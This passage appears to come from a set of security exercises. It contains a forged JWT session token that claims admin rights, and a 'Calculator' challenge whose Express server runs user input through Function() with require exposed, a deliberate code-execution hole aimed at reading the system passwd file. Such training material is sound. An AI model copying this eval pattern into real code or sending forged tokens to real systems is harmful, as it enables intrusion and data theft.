 ```
POST /profile

{
  "session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzM5MjE3ODcxLCJleHAiOjE3MzkyMjE0NzF9.UPTetJKNJYZGDjZN11QE5md06xExfue-hCE0HhM6z4w"
}
```

<br /><br />



### **#19: Calculator**

**Goal:** Read the content of the OS's `passwd` file

**Code:**

```javascript
const express = require('express')
const bodyParser = require('body-parser');
const app = express();
require('dotenv').config();
const math = require('mathjs');

app.use(bodyParser.json());
const requestIp = require('request-ip');

app.post('/calc', async (req, res) => {
    try {
        console.log("remote ip:" + requestIp.getClientIp(req));
        let json = req.body;
        let calc = String(json.calculation);
        console.log("calc:", calc);    
        res.send(String(Function("return " + calc)(require)));
    } catch (e) {
        res.send(e.message);
        console.error(e.message);
    }
})

app.listen(process.env.port, () => {
    console.log(`API listening on PORT ${process.env.port}`)
})

module.exports = app
```

<br />

```
POST /calc

{"calculation":"process.cwd()"}
```
